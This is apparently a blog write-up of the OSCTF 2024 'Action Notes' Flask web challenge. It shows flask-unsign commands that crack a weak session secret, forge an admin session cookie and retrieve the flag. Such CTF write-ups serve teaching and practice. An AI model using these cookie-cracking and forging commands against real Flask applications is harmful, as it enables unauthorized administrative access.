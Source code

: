 ```yaml
---
title: OSCTF 2024 Action Notes web challenge writeup
author: yanganyi
pubDatetime: 2024-07-14T13:32:00+08:00
slug: osctf-2024-actionnotes
featured: true
draft: false
tags:
  - web
  - ctf
description: Writeup for a flask challenge (web) in OSCTF 2024
---
```



## Solution

Take a look at the cookies, we see one labelled "session".
At first it looks like JWT but when we attempt to decode we get an error.
Use `flask-unsign --unsign --cookie "<cookie here>"` to get the secret key `supersecretkey`.
We can then sign our own cookies as such:
`flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'`
Changing our cookie and heading to `/admin` we get the flag.\

flag: OSCTF{Av0id_S1mpl3_P4ssw0rDs}